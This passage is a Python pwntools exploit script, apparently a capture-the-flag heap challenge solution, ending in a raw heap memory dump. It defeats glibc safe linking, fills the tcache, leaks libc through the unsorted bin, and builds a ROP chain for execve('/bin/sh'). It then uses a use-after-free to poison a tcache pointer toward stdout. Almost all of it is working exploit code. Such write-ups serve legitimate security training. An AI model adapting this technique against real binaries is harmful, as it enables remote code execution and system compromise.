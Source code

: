 ```py
# then we defeated safe linking lol

alloc(0, b"YY", 0x100)
# request back the chunk we used to leak the heap

alloc(7, b"YY", 0x100) # prev
alloc(8, b"YY", 0x100) # a

alloc(9, b"/bin/sh\0", 0x10) # barrier

# fill tcache
for i in range(7):
    free(i)

free(8) # free(a) => unsortedbin
free(7) # free(prev) => merged with a

# leak libc
view(8)

libc = pwn.u64(io.recvline()[:-1].ljust(8, b"\x00")) - 0x219ce0 # - 0x1bebe0 # offset of the unsorted bin

rop = pwn.ROP(libc)
binsh = next(libc.search(b"/bin/sh\x00"))
rop.execve(binsh, 0, 0)

environ = libc.address + 0x221200
stdout = libc.address + 0x21a780

pwn.log.info(f"libc: {hex(libc)}")
pwn.log.info(f"environ: {hex(environ)}")
pwn.log.info(f"stdout: {hex(stdout)}")

alloc(0, b"YY", 0x100) # pop a chunk from the tcache to let an entry left to a 
free(8) # free(a) => tcache

alloc(1, b"T"*0x108 + pwn.p64(0x111) + pwn.p64((stdout ^ ((heap + 0xb20) >> 12))), 0x130) 
# 0x130, too big for tcache => unsortedbin UAF on a to replace a->next with the address of the target location (stdout) 
alloc(2, b"TT", 0x100)
# pop a from tcache

# next 0x100 request will return the target location (stdout)

"""
0x55c4fbcd7a00:	0x0000000000000000	0x0000000000000141 [prev]
0x55c4fbcd7a10:	0x5454545454545454	0x5454545454545454
0x55c4fbcd7a20:	0x5454545454545454	0x5454545454545454
0x55c4fbcd7a30:	0x5454545454545454	0x5454545454545454
0x55c4fbcd7a40:	0x5454545454545454	0x5454545454545454
0x55c4fbcd7a50:	0x5454545454545454	0x5454545454545454
0x55c4fbcd7a60:	0x5454545454545454	0x5454545454545454
0x55c4fbcd7a70:	0x5454545454545454	0x5454545454545454
0x55c4fbcd7a80:	0x5454545454545454	0x5454545454545454
0x55c4fbcd7a90:	0x5454545454545454	0x5454545454545454
0x55c4fbcd7aa0:	0x5454545454545454	0x5454545454545454
0x55c4fbcd7ab0:	0x5454545454545454	0x5454545454545454
0x55c4fbcd7ac0:	0x5454545454545454	0x5454545454545454
0x55c4fbcd7ad0:	0x5454545454545454	0x5454545454545454
0x55c4fbcd7ae0:	0x5454545454545454	0x5454545454545454
0x55c4fbcd7af0:	0x5454545454545454	0x5454545454545454
0x55c4fbcd7b00:	0x5454545454545454	0x5454545454545454
```